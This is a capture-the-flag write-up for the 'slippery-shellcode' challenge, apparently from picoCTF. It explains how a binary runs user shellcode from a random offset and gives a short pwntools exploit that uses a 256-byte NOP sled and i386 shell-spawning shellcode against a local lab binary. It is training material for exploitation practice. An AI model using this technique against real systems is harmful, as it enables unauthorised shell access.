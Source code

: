 # slippery-shellcode - 200pt

### Challenge ###
> LThis program is a little bit more tricky. Can you spawn a shell and use that to read the flag.txt? You can find the program in /problems/slippery-shellcode_2_4061c12f5a4a9d8c1c3f45b25fbcb09a on the shell server.

### Hints ###
> Here we've no hints

### Solution ###
>We have an executable that asks a shellcode and, after that we've provided it, the program execute it starting by a random position in the exploit string.
This position is pointed by an index composed by start position and an offet = rand() % 256.

### Executing the exploit ###
> The great size of buffer (512) allows us to provide 256 nops and then send our shellcode to be sure that it will be executed.
So we can send an exploit composed as follows:

    garbage = "\x90" * 256
    exploit = garbage + shellcode

> To create shellcode we can use shellcraft, a PWNTools method, that provide us a shellcode in function of the architecture of executable and tipe of shellcode that we want.
We want a shellcode that opens a shell and work in i386, we can obtain it as follows:

    shellcode = asm(shellcraft.i386.sh())

> Now we're ready to send our exploit.

### Exploit: ###

    garbage = "\x90" * 256
    shellcode = asm(shellcraft.i386.sh())
    exploit = garbage + shellcode

    p = process("./vuln")
    p.sendline(exploit)
    p.interactive()
